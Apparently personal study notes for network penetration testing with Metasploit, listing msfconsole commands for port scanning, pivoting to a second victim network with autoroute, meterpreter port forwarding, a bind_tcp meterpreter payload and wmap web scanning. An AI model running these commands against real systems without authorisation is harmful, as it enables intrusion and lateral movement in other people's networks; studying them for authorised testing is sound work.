 # Host & Network pentest (MSF)

### Scanning computer of a network's PC with our current access&#x20;

* scan ports

```bash
use auxiliary/scanner/portscan/tcp
```

### ip route&#x20;

* kinda pivoting
* to scan victim 2 inside different network (we need access to any pc of that network)

```bash
run autoroute -s $IP/subnet
# here ip of vitcim-1 would be different (not the IP we pwned the machine with)

background 
#bg the current session

# use the tcp port scan module
set RHOSTS victim-2 #victim 2 address
```

### portforwading&#x20;

```
meterpreter>portfwd -l <local_port> -p <remote_port> -r $IP
```

* note ...... always use /bind/tcp reverse shell module after port forward/pivot

```bash
meterpreter> set payload meterpreter/bind_tcp
```

## wmap

* to scan web app with msfconsole

```bash
load wmap

#specify sites here
wmap_sites -a $IP

#set target url
wmap_targets -t http://$IP/

#list sites
wmap_sites -l

#to run
wmap_run -t 
```



